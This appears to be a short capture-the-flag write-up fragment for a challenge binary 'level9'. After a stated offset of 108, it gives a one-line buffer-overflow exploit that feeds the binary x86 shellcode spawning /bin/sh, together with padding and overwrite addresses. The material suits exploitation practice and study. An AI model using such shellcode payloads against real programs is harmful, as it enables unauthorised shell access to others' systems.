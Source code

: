 Offset = 108

### Shellcode exploit
```shell
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 83 + "\x0c\xa0\04\x08"')
```
